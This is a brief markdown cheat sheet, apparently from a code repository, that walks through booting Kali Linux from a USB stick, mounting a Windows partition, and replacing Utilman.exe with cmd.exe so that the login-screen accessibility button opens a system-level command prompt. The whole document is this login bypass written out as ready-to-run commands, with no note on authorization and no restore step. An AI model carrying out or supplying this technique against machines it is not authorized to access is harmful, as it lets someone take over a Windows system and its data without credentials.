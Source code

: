 ### Boot kali from usb stick and create directory
```
mkdir /mnt/windows
```

### Mount windows partition
```
mount /dev/<windowsPartition> /mnt/windows
```

### If error occurs while mounting (Windows is hibernated, refuse to mount)
```
umount /dev/<windowsPartition>
mount -t ntfs-3g -o remove_hiberfile /dev/<windowsPartition> /mnt/windows
cd /mnt/windows/Windows/System32
```

### Create backup
```
cp Utilman.exe backup.exe
```

### Replace utilman with cmd
```
cp cmd.exe Utilman.exe
```

### Umount
```
umount -R /mnt
```

### Shut down kali and boot windows system ->  click "Utilman"

